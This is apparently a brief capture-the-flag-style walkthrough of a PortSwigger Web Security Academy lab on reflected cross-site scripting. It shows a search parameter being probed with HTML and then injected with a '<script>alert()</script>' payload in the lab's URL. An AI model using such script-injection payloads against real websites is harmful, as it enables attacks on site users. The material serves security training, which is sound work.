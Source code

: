 # Reflected XSS into HTML context with nothing encoded

## This lab contains a simple [reflected cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/reflected) vulnerability in the search functionality.

## To solve the lab, perform a cross-site scripting attack that calls the `alert` function.

---

### step 1

`https://0a7b000c0436edbdc665d52c000100ef.web-security-academy.net/?search=market`

you will get search result

### step2

heree test `<p> hello</p>`

`https://0a7b000c0436edbdc665d52c000100ef.web-security-academy.net/?search=<p>hello</p>`

you will get hello on browser
now
`https://0a7b000c0436edbdc665d52c000100ef.web-security-academy.net/?search=<script>alert()</script>`
`
alert function will pop up window on screen
